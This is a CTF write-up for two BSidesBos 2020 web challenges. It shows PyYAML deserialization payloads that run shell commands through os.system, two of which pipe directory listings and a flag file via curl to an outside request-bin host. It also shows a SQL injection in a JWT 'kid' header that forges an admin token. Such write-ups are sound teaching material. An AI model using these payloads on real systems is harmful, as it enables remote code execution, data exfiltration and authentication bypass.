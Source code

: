 ```yaml
---
layout: post
title: BSidesBos CTF writeup - Web
author: Lorentz Vedeler
date: 2020-09-26
tags:   
    - BSidesBos
category: writeup
---
```


I only solved two web challenges in this CTF: skid and Yet Another Micro-story Library. All web challenges had a pretty low number of solves.

# Yet Another Micro-story Library

We have to sign up and then log in to see a page with shared stories. When we do we are greeted with a blog listing. At the bottom there is a button to add our own story to the blog.

![Story time front page][story-time]
![Story time yaml form][story-time-form]

We can try to send some malformed yaml to the page:

``` yml
title: "Title of your story"
synopsis: "This is a brief summary of your story"
plot: 
---and they lived happily ever after.
    The End
keywords:
    - "example" 
    - "fiction" 
```

``
Bad Request

Error parsing yaml: while scanning a simple key
in "<unicode string>", line 4, column 1:
---and they lived happily ever a ...
^
could not find expected ':'
in "<unicode string>", line 6, column 1:
keywords:
^
``` 

Googling the errors didn't really give me any clues to which framework was being used, so I decided to just try a few simple payloads.

My first payload was:

```yml
!!python/object/apply:subprocess.Popen
  - ls
``` 
Giving the error below, at least now we can be pretty sure we're dealing with a python application.

```
Internal Server Error

'Popen' object is not subscriptable
```

I actually spent a lot of trying to get Popen to work, but found a different payload after a while.

``` yml
!!python/object/apply:os.system
  - ls
```
It succeeds, but the data does not appear anywhere. We can easily exfiltrate data though with a request bin though.

```yml
!!python/object/apply:os.system
  - ls | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```

The flag is in the web directory, so we can just issue a new command:
```yml

!!python/object/apply:os.system
  - cat flag.txt | curl -X POST --data-binary @-  https://postb.in/1601157034473-5430747917853
```


# skid

The challenge is a true script kiddie blog - teaching the fine art of sqlmap and armitage. We notice a cookie has been set:

skidtoken=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo

The JWT token decodes to the header 
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "skid"
}

and the body
{
  "username": "skid"
}

The kid field in the header represents a key identifier. The key identifier is used to let the server know which key has been used to sign the token. This is very useful for instance when the token issuing server rotates keys. This allows for a grace period where tokens that have issued right before the key rotation can still be validated by the server after the key rotation. The key identifier is also useful for simply having many different keys at the same time. 

Anyway, this key identifier can often represent a key in a jwks.json file, a regular file or a key in a database. We can look for a publicly available jwks-file. We try a few different files: 
* jwks.json
* /.well-known/jwks.json
* skid.json
* skid

and a few permutations of those, but no luck. Let's instead try to look for a sql injection. We can just modify our token with for instance the tool on jwt.io. Remember that since the kid field is used to look for the key used for the signature, we do not need to provide a valid signature now. Let's just change the kid to `skid'` and see if we can trigger an error. Change the cookie value in developer tools and refresh the page.

```
Bad Request

(sqlite3.OperationalError) unrecognized token: "'skid''"
[SQL: select * from key where name like 'skid'']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

Nice, the key is stored in a sqlite db and we have a sql injection vulnerability! We can now use a union to choose our own key by effectivly changing the query to

``` sql
select * from key where name like 'a key that does not exist' 
union 
select <our key>
```

But first we need to detect how many fields there are in the table. A few tries gives us the correct number of columns. The final payload for our kid field is `asdbqweqwe' union select 'a','a','a`. As we have replaced all fields of the key with a's we can forge our token in jwt.io setting the secret to `a` and the username field in the body to admin.

![SQL injection in jwt kid field in jwt.io][forging-token]

[story-time]: /assets/imgs/yaml-blog.png "Story time front page"
[story-time-form]: /assets/imgs/yaml-form.png "Story time form"
[forging-token]: /assets/imgs/jwt-with-sqli.png "SQL injection in jwt kid field in jwt.io"